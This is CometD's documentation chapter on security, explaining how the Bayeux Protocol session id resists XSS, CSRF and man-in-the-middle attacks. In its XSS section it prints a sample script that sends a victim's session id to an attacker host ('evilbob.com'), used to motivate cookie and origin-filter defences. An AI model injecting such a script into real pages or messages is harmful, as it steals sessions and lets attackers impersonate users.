 
[[_security]]
== Security

This session discusses the security features of the Bayeux Protocol and the
relationship with common attacks and how you can configure CometD to tighten
your application.

=== Security of the session id

The Bayeux Protocol identifies a particular session (formerly known as "client")
via a session id token, carried in Bayeux messages by the `clientId` field.
The `clientId` field value (i.e. the session id) is generated by the server
when the client sends the handshake request message, and sent back to the
client in the handshake response message (see
<<_bayeux_meta_handshake,the Bayeux Protocol handshake>>).
The client then sends the `clientId` field in every subsequent message to the
server, until disconnection.

The session id is generated using a strong random number generator, and as
such it is not guessable by an evil third party.
An evil user that knows its own session id cannot guess the session id of
another user by just looking at its own session id.

While the non-guessability of the session id is a good starting point, it
is typically not enough, so read on.

=== Security against man-in-the-middle attacks

An evil user may be in the position to observe Bayeux Protocol traffic, as
it is the case for a man-in-the-middle.

The typical solution in this case is to encrypt the traffic between the
client and the server using TLS.
In this way, all the traffic between the client and the server is
encrypted end-to-end and a man-in-the-middle cannot look or otherwise retrieve
someone else's session id.

[[_security_xss]]
=== Security against cross-site scripting (XSS) attacks

A https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)[cross-site scripting attack]
is a particularly important vulnerability of web applications.

A typical example of XSS is the following:

Evil user Bob connects to a chat service that uses CometD.
There, he finds Alice, another user.
Bob sends an evil chat message text to Alice where the text is the following:

====
[source,html]
----
<script type="text/javascript">
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://evilbob.com?stolen=" + $.cometd.getClientId());
xhr.send();
</script>
----
====

As you can see, the script accesses the CometD's session id (via
`$.cometd.getClientId()`).

[NOTE]
====
Removing the method `getClientId()` would not solve the issue, because
the evil script could access the session id in other ways.
For example, by registering an extension, or by otherwise watching
Bayeux messages that come and go for the normal functioning of the
application, or by quickly disconnecting and reconnecting the session, etc.
====

Bob sends that evil message, which reaches the CometD server and gets routed
to Alice. When it arrives on Alice's browser, that script may be run by
the browser if the application is XSS vulnerable.

If the script runs, Bob would be able to steal Alice's session id, send
it to his server `evilbob.com`, where Bob would be able to access it.

[IMPORTANT]
====
If your web application is XSS vulnerable, an attacker can do
a lot more damage than just stealing a CometD session id, so it is of
paramount importance that your web application sanitizes data received
from unknown sources such as other users chat messages.
====

If Bob has stolen Alice's session id, he could craft a Bayeux message
with Alice's session id and send it from his computer, and thereby could
impersonate Alice.

CometD protects from impersonations due to stolen session ids in different
ways, depending on the type of transport used to carry Bayeux messages.

For transports based on HTTP (`long-polling` and `callback-polling`),
CometD sends a HTTP cookie with the handshake response, marked as `HttpOnly`,
called `BAYEUX_BROWSER` (see <<_java_server_configuration>>).
The CometD implementation, on the server, maps this cookie to a legit
session id during the processing of the handshake request message.
For every subsequent message, the browser will send the `BAYEUX_BROWSER`
cookie to the server and the CometD implementation will
retrieve the session id from legit sessions that have been mapped to the
cookie, rather than from the message (where it could have been altered).

Bob could craft a message with Alice's session id, but the `BAYEUX_BROWSER`
cookie that he will send along with the tampered message will be his,
not Alice's. The CometD implementation will detect this attack and ask
Bob to re-handshake.

If the crafted message does not have any cookie, CometD will ask Bob to
re-handshake.

For transports based on WebSocket (`websocket`), CometD trusts the particular
connection that has been established during the handshake.
The session id is associated to that connection and when a WebSocket message
arrives on that connection, and CometD retrieves the session id from the
association with the connection, rather than from the message (where it
could have been altered).

When the connection is closed, for example for a network failure, CometD
attempts to open another connection.
If the reconnection happens within a short period of time (typically less than
the `maxInterval` configured on the server), then CometD will try to send
messages on the new connection without re-handshaking, but since it's a new
connection that did not process a handshake message, it will not have a
session id associated.

At this point, CometD could ask the client to re-handshake (which involves
some round-trips to be completed, possibly slowing further down the
communication in case of faulty networks), or it could trust the session
id from the message (which would yield faster reconnections, albeit less
secure if the session id is stolen).
This is controlled by the `requireHandshakePerConnection` parameter, see
<<_java_server_configuration>>.

[[_security_csrf]]
=== Security against cross site request forgery (CSRF) attacks

A https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)[cross site request forgery attack]
is a particularly important vulnerability of web applications.

A typical example of CSRF is the following:

Evil user Bob connects to the chat service at `cometd-chat.com` using CometD. There,
he finds Alice, another user. Bob sends an evil chat message text to Alice where the
text is the following:

====
[source,html]
----
Look at this: http://evilbob.com/cometd
----
====

Alice clicks on the link, her browser opens a new tab to `+http://evilbob.com/cometd+`
and an entertaining HTML page containing a script is downloaded to Alice's browser.

While Alice is looking at Bob's entertaining page, her browser runs the script,
which may perform actions on behalf of Alice on the chat service that uses CometD.

For example, Bob could use <<_security_xss,XSS>> to steal Alice's session id and
then craft and send evil messages to the chat service _from Alice's browser_.
Alice's browser will send the existing Alice's `BAYEUX_BROWSER` cookie along with
the evil messages, and to the server the evil messages will be indistinguishable
from legit messages sent by Alice, because they will carry her `BAYEUX_BROWSER`
cookie and her stolen session id.

CometD does not automatically protects against CSRF attacks, but these are easily
counterfeit by configuring the cross-origin filter as explained in
<<_java_server_configuration_advanced,this section>>.

Alice's legit messages are sent by a script downloaded from the chat service, and
therefore will have the following HTTP header:

====
[source]
----
Origin: http://cometd-chat.com
----
====

Conversely, Bob's evil script is downloaded from `+http://evilbob.com+` and his
evil messages will have the following HTTP header:

====
[source]
----
Origin: http://evilbob.com
----
====

The application at `cometd-chat.com` can install the cross-origin filter and
configure it to allow requests only from the `cometd-chat.com` origin,
effectively blocking Bob's CSRF attack.
This works because browsers are required to perform a _preflight_ request
before sending a HTTP request to a different target origin.
The preflight request will be intercepted by the cross-origin filter and
denied.
The unsuccessful preflight response instructs the browser that the script
cannot perform any request to that target origin, and the browser will
block the script from making requests to the target domain.
